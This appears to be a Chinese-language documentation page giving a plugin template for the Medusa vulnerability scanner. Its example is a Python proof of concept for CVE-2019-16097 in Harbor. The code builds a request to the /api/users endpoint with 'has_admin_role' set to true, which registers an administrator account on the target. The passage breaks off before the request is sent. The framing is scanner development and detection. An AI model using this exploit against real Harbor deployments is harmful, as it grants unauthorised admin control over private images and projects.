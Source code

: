 ## 插件模板

以`Harbor`插件作为例子

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
__author__ = 'Ascotbe'
from ClassCongregation import VulnerabilityDetails,UrlProcessing,ErrorLog,WriteFile,randoms,ErrorHandling,Proxies
import json
import urllib3
import requests
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
class VulnerabilityInfo(object):
    def __init__(self,Medusa):
        self.info = {}
        self.info['number']="CVE-2019-16097" #如果没有CVE或者CNVD编号就填0，CVE编号优先级大于CNVD
        self.info['author'] = "Ascotbe"  # 插件作者
        self.info['create_date'] = "2020-2-19"  # 插件编辑时间
        self.info['disclosure'] = '2019-9-19'  # 漏洞披露时间，如果不知道就写编写插件的时间
        self.info['algroup'] = "HarborAnyAdministratorRegistrationVulnerability"  # 插件名称
        self.info['name'] ='Harbor任意管理员注册漏洞' #漏洞名称
        self.info['affects'] = "Harbor"  # 漏洞组件
        self.info['desc_content'] = "版本中的core/api/user.go文件存在安全漏洞。若开放注册功能，攻击者可利用该漏洞创建admin账户。注册功能默认开放。攻击者可以以管理员身份下载私有项目并审计；可以删除或污染所有镜像。"  # 漏洞描述
        self.info['rank'] = "高危"  # 漏洞等级
        self.info['version'] = "Harbor1.7.6之前版本\r\nHarbor1.8.3之前版本"  # 这边填漏洞影响的版本
        self.info['suggest'] = "升级最新Harbor版本"  # 修复建议
        self.info['details'] = Medusa  # 结果


def medusa(Url:str,RandomAgent:str,proxies:str=None,**kwargs)->None:
    proxies=Proxies().result(proxies)
    scheme, url, port = UrlProcessing().result(Url)
    if port is None and scheme == 'https':
        port = 443
    elif port is None and scheme == 'http':
        port = 80
    else:
        port = port
    try:
        payload = '/api/users'
        payload_url = scheme + "://" + url + ":" + str(port) + payload

        headers = {
            'User-Agent': RandomAgent,
            'Accept': 'application/json',
            "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
            "Accept-Encoding": "gzip, deflate",
            "Content-Type": "application/json",
        }
        rm = "MedusaTextPoc"+randoms().result(5)  # 获取随机数
        data= {
            "username": rm,
            "email": rm+"@qq.com",
            "realname": rm,
            "password": rm,
            "comment": rm,
            "has_admin_role": True
        }

        data = json.dumps(data)
```